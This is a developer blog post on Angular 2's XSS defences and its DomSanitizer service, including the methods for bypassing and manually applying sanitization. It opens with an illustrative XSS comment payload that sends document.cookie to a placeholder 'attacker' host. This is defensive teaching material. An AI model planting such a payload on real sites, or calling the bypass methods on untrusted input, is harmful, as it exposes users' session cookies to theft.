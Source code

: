 ```yaml
---
title: "Angular 2 Security — The DomSanitizer Service"
description: "Cross-site Scripting or XSS is probably the most common website security vulnerability. It enables an attacker to inject client-side script into web pages viewed by other users. Every blog on the…"
date: "2016-11-05T19:12:44.566Z"
categories: 
  - JavaScript
  - Web Development
  - Angularjs
  - Angular2
  - Programming

published: true
canonical_link: https://netbasal.com/angular-2-security-the-domsanitizer-service-2202c83bd90
redirect_from:
  - /angular-2-security-the-domsanitizer-service-2202c83bd90
---
```


_By: Netanel Basal (Angular Expert) and Yaron Biton, misterBIT.co.il CTO_

![](./asset-1.png)

#### Background:

Cross-site Scripting or XSS is probably the most common website security vulnerability. It enables an attacker to inject client-side script into web pages viewed by other users.

#### **Example of real world attack:**

Every blog on the Internet has a comment’s system that allows users to comment on articles. The comment posted through a regular HTML form:

<Embed src="https://gist.github.com/NetanelBasal/a78b8ffe5081637ccfb7ffc2db53296f.js" aspectRatio={0.357} caption="" />

Now suppose that an attacker sends the following code as a “comment” to the server:

```
<script>
 window.location=’http://attacker/?cookie='+document.cookie
</script>
```

If the website does not protect itself from Cross-site Scripting, this content will be saved to the database and all users visiting the page will redirect to the attacker URL.

A real attacker would, of course, create a much more malicious script, for example, the attacker could record keyboard events and send this information to a server that he owns.

This attack is only one example of XSS attack, but it can be in many forms, like in URL queries, href attributes, CSS and more…

You can read more on XSS in this great [article](http://excess-xss.com/).

#### How Angular 2 protect us from XSS:

> Angular treats all values as untrusted by default. When a value is inserted into the DOM from a template, via property, attribute, style, class binding, or interpolation, Angular sanitizes and escapes untrusted values.

**Sanitization** modifies the input, turning it into a value that is safe to insert into the DOM. In Angular sanitization depends on context, a value that is harmless in CSS is potentially dangerous in a URL. you can read about the different contexts [here](https://angular.io/docs/ts/latest/guide/security.html).

For example when we try to do this:

<Embed src="https://gist.github.com/NetanelBasal/5a9aef014d9c9076693b2dec7ec955b8.js" aspectRatio={0.357} caption="" />

Behind the scenes, Angular will sanitize the HTML input and escape the unsafe code, so in this case, the script will not run, only display on the screen as text.

Another example, if you will try to bind the _src_ property of an Iframe (or a video):

<Embed src="https://gist.github.com/NetanelBasal/7f9e33c85bc51506ec4dc312091d5db5.js" aspectRatio={0.357} caption="" />

You will get this error:

_“unsafe value used in a resource URL context.”_

Angular throwing this error because the <iframe src> attribute is a resource URL security context, because an untrusted source can, for example, smuggle in file downloads that unsuspecting users could execute.

#### Bypass Angular protection:

What if we need to Bypass Angular protection and trust the given value in our particular case?

In this case, we can use the **DomSanitizer** service. Let’s see how we can use this service in the above examples.

<Embed src="https://gist.github.com/NetanelBasal/cddb6581118870af3d33e72fa124896d.js" aspectRatio={0.357} caption="" />

We are injecting the DomSanitizer service and execute the bypassSecurityTrustHtml method, because we are dealing with html context to Bypass security and trust the given value to be safe HTML.

Next, let’s see how we can use the Iframe src:

<Embed src="https://gist.github.com/NetanelBasal/fa2e460e869d7d22553dddc7beaf183a.js" aspectRatio={0.357} caption="" />

We are injecting the DomSanitizer service and execute the bypassSecurityTrustResourceUrl method to Bypass security and trust the given value to be a safe style URL.

**Note**: calling these methods with untrusted user data exposes your application to XSS security risks!

#### How to Sanitizes a value manually:

Sometimes you need to sanitizes a value manually, maybe you need to work with third-party APIs that contain unsafe methods. You can use the sanitize method. The sanitize method takes the context (as enum) that can be one of:

-   SecurityContext.NONE
-   SecurityContext.HTML
-   SecurityContext.STYLE
-   SecurityContext.SCRIPT
-   SecurityContext.URL
-   SecurityContext.RESOURCE\_URL

and the value to sanitize.

<Embed src="https://gist.github.com/NetanelBasal/703a57abce178e06ad6b29b150f981b1.js" aspectRatio={0.357} caption="" />

That’s all.

_☞_ **_Please tap or click “︎_**❤” _to help to promote this piece to others._
